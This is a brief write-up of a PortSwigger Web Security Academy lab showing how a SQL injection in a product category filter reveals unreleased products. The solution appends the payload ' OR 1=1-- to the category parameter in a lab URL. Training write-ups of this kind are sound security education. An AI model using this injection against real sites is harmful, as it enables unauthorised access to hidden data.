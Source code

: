 # Lab's description
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

**End goal:** Display one or more unreleased products.

# Solution
Firstly, you go to home page and choose any category.

**Link** `https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle`

We will see there are only 3 items; then we modify the link by adding `' OR 1=1--`

**Link:** `https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle%27+OR+1=1--`

After modifying, we can see there are more items added.

**Source:** [Lab: Retrieving hidden data] (https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data#)
